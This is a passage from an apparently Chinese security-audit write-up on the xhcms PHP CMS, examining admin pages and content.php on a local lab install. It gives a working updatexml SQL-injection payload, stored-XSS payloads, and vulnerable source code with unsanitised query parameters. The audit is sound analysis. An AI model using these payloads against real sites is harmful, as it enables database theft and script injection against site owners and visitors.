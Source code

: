 在下面的输入框也能注入

```
1' or updatexml(1,concat(0x7e,(select database())),0) or'
```

### /admin/files/editwz.php

和上面无异

### /admin/files/imageset.php

和上面无异,只是这里不会GET一个id参数,只有content那里加了一个addslashes处理其他的并没有

这里可以上传文件,但是好像没法利用

### /admin/file/manageinfo.php

不提交id参数,post方式在输入框仍然可以注入

不过这里还有一个xss,还是个存储型xss,每次访问的时候都会弹窗了

![image-20210925150753791](images/15.png)

因为这里的参数并没有用htmlspecialchars()或htmlentities()函数过滤

```
<script>alert(1)</script>

<img src=1 onerror=alert(/xss/)>
```

由此可以看出前面没有对参数处理的那些输入框也会存在xss,试了试都可以

这些文件都除了adset都存在sql注入利用条件出奇的一致

![image-20210925152346946](/Users/DawnT0wn/Library/Application Support/typora-user-images/image-20210925152346946.png)

### /files/content.php

这个文件需要从/index.php进去,同样是利用文件包含

```
http://192.168.121.130/xhcms/?r=content
```

源码

```
<?php 
require 'inc/conn.php';
require 'inc/time.class.php';
$query = "SELECT * FROM settings";
$resul = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$info = mysql_fetch_array($resul);

$id=addslashes($_GET['cid']);
$query = "SELECT * FROM content WHERE id='$id'";
$resul = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$content = mysql_fetch_array($resul);

$navid=$content['navclass'];
$query = "SELECT * FROM navclass WHERE id='$navid'";
$resul = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$navs = mysql_fetch_array($resul);

//浏览计数
$query = "UPDATE content SET hit = hit+1 WHERE id=$id";
@mysql_query($query) or die('修改错误：'.mysql_error());
?>
```